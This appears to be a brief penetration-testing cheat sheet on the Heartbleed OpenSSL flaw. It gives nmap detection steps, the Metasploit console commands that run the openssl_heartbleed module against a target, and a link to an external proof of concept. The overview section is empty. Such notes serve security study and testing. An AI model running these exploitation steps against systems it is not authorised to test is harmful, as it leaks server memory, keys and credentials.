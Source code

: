# Heartbleed

### Overview of the Heartbleed exploit


### Detecting Heartbleed

#### Nmap

Put the ssl-heartbleed.nse in your nmap scripts directory `/usr/share/nmap/scripts` 

Put tls.lua in the nmap "nselib" library `/usr/share/nmap/nselib`

Run the command
> `nmap -sV -script=ssl-heartbleed <target>`


### Exploiting with Metasploit

Search for the heartbleed module

> `search heartbleed`

Use the scanner
> `use  auxiliary/scanner/ssl/openssl_heartbleed`

Set Exploit option
> `set verbose true`

> `set rhosts [targetIP]`

Run the Exploit
> `run`

### Heartbleed PoC

[https://github.com/mpgn/heartbleed-PoC](https://github.com/mpgn/heartbleed-PoC)







